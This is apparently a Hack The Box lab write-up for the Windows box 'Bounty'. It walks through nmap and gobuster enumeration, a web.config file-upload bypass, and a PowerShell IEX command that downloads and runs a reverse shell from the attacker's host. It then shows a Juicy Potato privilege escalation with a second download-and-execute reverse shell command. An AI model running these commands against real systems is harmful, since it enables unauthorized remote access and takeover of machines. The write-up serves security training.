






# Enumeration:
Started with an nmap scan to enumerate the box:
```bash
Nmap scan report for 10.10.10.93
Host is up (0.071s latency).
Scanned at 2022-08-11 23:18:46 EDT for 160s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=8/11%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=62F5C736%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10E%TI=I%II=I%SS=S%TS=7)
OPS(O1=M539NW8ST11%O2=M539NW8ST11%O3=M539NW8NNT11%O4=M539NW8ST11%O5=M539NW8ST11%O6=M539ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M539NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.002 days (since Thu Aug 11 23:18:22 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   70.05 ms 10.10.14.1
2   70.05 ms 10.10.10.93

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 23:21
Completed NSE at 23:21, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 23:21
Completed NSE at 23:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 23:21
Completed NSE at 23:21, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.10 seconds
           Raw packets sent: 131264 (5.779MB) | Rcvd: 129 (6.412KB)
```
</br>

**Initial Shell:** </br>
I ran a bruteforce scan with gobuster with this command: </br>
```gobuster dir --url http://10.10.10.93/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x .aspx,.aps,.html``` </br>
And found out ```/transfer.aspx``` file and ```/uploadedfiles``` directory: </br>
 </br>
I tried to upload files and it only allowed image files and I couldn't upload any file with ```.ASP``` extension. </br>
To bypass it I uploaded a ```web.config``` file directly to run ASP classic codes (refrence in this link: [upload-a-web-config-file-for-fun-profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/). </br>
And it worked: 
 </br>
I found this file under the ```uploadedFiles``` directory that I found with gobuster. </br>
To get a reverse shell I did this: </br>
I ran this command: ```C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.18/revshell.ps1')"``` </br>
The link to the powershell script I used: [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) </br>
**1.** </br>
 </br>
**2.** </br>
 </br>

# Privilege Escalation:

I used ```whoami /priv``` command to see all of my user privileges, and I could see that ```SeImpersonatePrivilege``` was enabled, which means that I could use the juicy potato exploit. </br>
I downloaded the binary from [GitHub](https://github.com/ohpe/juicy-potato/releases) </br>
I hosted a smbserver on my Kali: </br>
 </br>
And then I downloaded the juicypotato binary to the target ```TEMP``` directory with this command: </br>
```copy \\10.10.14.18\kali\juicy.exe``` </br>
Now I could use juicy potato to run a process/command for me with the elevated privileges. </br>
to do that I had to specify a token, a program to launch, com server listen port and CLSID (based on the system OS, it is possible to find it out using ```systeminfo```). </br>
With ```systeminfo``` command I could see that my OS version is Microsoft Windows Server 2008 R2: </br>
 </br>
Then In order to specify the CLSID for this system OS, I used this website to find the correct one: </br>
https://ohpe.it/juicy-potato/CLSID/ </br>
I picked up this CLSID: ```{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}```, And this is the full command I used: </br>
```.\juicy.exe -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.18/reverse.ps1')" -t * </br>

**Vulnerability Exploited:** Juicy Potato Exploit.
**Vulnerability Explanation:** Juicy Potato is a local privilege escalation tool to exploit Windows service account’s impersonation privileges. </br>
The tool takes advantage of the SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege if enabled on the machine to elevate the local privileges to System. </br>
Normally, these privileges are assigned to service users, admins, and local systems — high integrity elevated users. </br>
**Proof Screenshot Here:** </br>
 </br>


